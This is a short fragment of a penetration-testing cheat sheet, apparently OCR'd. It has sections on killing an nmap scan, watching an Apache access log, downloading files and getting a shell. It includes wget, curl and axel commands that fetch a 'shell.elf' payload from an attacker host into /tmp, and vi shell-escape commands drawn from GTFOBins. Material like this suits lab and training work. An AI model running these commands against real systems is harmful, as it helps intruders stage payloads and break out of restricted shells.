 ``` bash
kill 1466                                                                                                                                                           2 ⚙
                                                                                                                                                                            
[2]  + terminated  nmap -p- 192.168.11.132 -Pn
```

## Monitoring

``` bash
udo tail -f /var/log/apache2/access.log
192.168.11.130 - - [09/Mar/2021:21:12:03 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
192.168.11.130 - - [09/Mar/2021:21:12:05 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
...
```

``` bash
watch -n 1 date
```

## Downloading

wget

``` bash
wget -O /tmp/shell http://192.168.110.131/shell.elf
```

curl

``` bash
curl -o /tmp/shell http://192.168.110.131/shell.elf
```

axel

``` bash
axel -a -n 20 -o /tmp/shell http://192.168.110.131/shell.elf
```

## Commands to Shell

[https://gtfobins.github.io/](https://gtfobins.github.io/)

### vi

``` bash
vi -c ':!/bin/sh' /dev/null
```

``` bash
vi
:set shell=/bin/sh
:shell
```

### nano
